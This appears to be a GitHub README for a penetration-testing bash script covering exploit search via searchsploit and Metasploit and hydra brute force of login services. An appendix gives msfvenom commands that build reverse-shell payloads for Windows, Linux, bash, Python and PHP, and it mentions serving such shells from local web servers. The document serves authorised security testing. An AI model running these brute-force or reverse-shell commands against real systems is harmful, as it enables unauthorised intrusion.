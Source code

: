 # Exploitation Phase

Definition Exploitation Phase...

This environment variables controlled bash script serves as a tool for receiving some information that may be important for Exploitation Phase, including automatic exploit search or brute force passwords.

## Features

- Automatic Exploit Search: Search exploits from nmap vulnerability scan
- Brute Force most common services:
    - AFP, AJP, Cassandra, CouchDB, FTP, IMAP, IRC, ISCSI, LDAP, Mongo, MySQL, OracleSQL, POP, PostgreSQL, RDP, Redis, Rexec, Rlogin, Rsh, Rsync, RTSP, SNMP, SMB, SMTP, SOCKS, MS-SQL Server, SSH, Telnet, VNC

## Usage

1. Copy the `exploitation.conf.dist` file to `exploitation.conf`
```bash
cp exploitation.conf.dist exploitation.conf
```
2. Adjust the conf file to your needs
3. Run the script with following command:
```bash
./exploitation.sh -c exploitation.conf
```

## Results

Results stored to output/ directory.

## Search Exploits

Automatic approach:  

- Set SEARCHEXPLOIT variable to true to let the script find exploits from nmap vulners scan from reconnaissance phase

Manual approach:

- searchsploit (local copy of exploit-db)
- metasploit search (msf search)
- sqlmap

### searchsploit

Examples:  
```bash
searchsploit -u # update local exploit-db
searchsploit openssh -www
searchsploit apache 2.2 | grep -i local
```

If you have an EDB-ID, you can directly download an exploit with -m parameter:
```bash
searchsploit -m [EDB-ID]
# Example:
searchsploit -m 50689
```

### metasploit

Try metasploit (msfconsole) to search for an exploit by a given CVE Number or EDB-ID or by keywords.  
Metasploit search examples:
```bash
msfconsole -x "search cve:2010-2075; exit;" -q
msfconsole -x "search type:exploit platform:linux ftp; exit;" -q
msfconsole -x "search type:exploit platform:windows port:135; exit;" -q
```

## Tools used

All tools used are preinstalled on latest Kali Linux Version 2022.1:

- nmap
- hydra
- searchsploit

-----

## Additional Information

### Payloads

Creating payloads with MsfVenom:  

```sh
# msfvenom syntax
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport] [more options]

# Examples:
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe    

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > revshell.elf    
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<IP> LPORT=<PORT> -f elf > revshell.elf

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > revshell.sh

# Python
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > revshell.py

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > revshell.php
```


### Reverse Shells

Checkout the following links on Reverse Shells:

- [Reverse Shell Generator](https://www.revshells.com/)
- [Reverse Shell Cheat Sheet @ HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Different Shells @ HackTricks](https://book.hacktricks.xyz/shells/shells)

### Local Web Servers

Need an simple, local web server? These are great for serving up (reverse) shells  

| **Command**                             | **Description**                                                     |
|-----------------------------------------|---------------------------------------------------------------------|
| ```python2 -m SimpleHTTPServer 8000```   | Run a basic http server with python on port 8000 in this directory  |
| ```python3 -m http.server 8000```       | Same with python3                                                   |
| ```php -S 0.0.0.0:8000```               | Run a basic http server with php on port 8000 in this directory     | 

### SQL Injection

Try [sqlmap](https://github.com/sqlmapproject/sqlmap) to enumerate and inject sql databases.

### Command Injection

Checkout the [commix project](https://github.com/commixproject/commix/wiki/Usage-Examples) for possible command injection examples with commix or for [getting shells with commix](https://github.com/commixproject/commix/wiki/Getting-Shells).
